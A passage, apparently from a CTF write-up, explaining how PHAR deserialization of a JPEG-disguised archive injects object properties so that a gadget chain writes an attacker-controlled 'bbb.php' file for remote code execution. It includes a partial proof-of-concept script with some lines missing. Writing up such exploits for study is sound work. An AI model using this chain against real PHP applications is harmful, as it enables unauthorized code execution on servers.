By creating cl1 function and set it as metadata. `cl1` class will be created
and `__destruct` function will be called when
`php://filter/resource=phar://phar.jpeg` is called.

phar deserialization could not only able to call `__destruct` and `__wakeup`
functions, but also inject `private`,`protected`, `public` variable inside
class.

By using this tricks, we could configure cl1 class to call `set` function in
`cl2` class  
```  
phar_create.php  
startBuffering();  
$phar->addFromString("test.txt","test");  
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");  
$cl2 = new cl2();  
$cl2->writeTimes = 0;  
$cl2->options = [  
    "data_compress" => false,  
    "prefix" => "",  
    "serialize" => "strval",  
    "expire" => 111111111111  
];

$cl1 = new cl1($cl2, "bbb.php"); // our RCE php file  
$cl1->store = $cl2;  
$cl1->key = "bbb.php";  
$cl1->autosave = false;  
$cl1->cache = [  
    ""  
];  
$cl1->complete = 1;

$phar->setMetadata($cl1);  
$phar->stopBuffering();

```

The above code will called `file_put_contents('bbb.php', PAYLOAD)` so that RCE
could be executed.

Even if  we could inject any code we want,  a stopper written before writing
our payload.  
```  
old.php  
....  
        $data = "\n" . $data;  
        $result = file_put_contents($filename, $data);  
				 if ($result) {  
            return true;  
        }  
...  
```
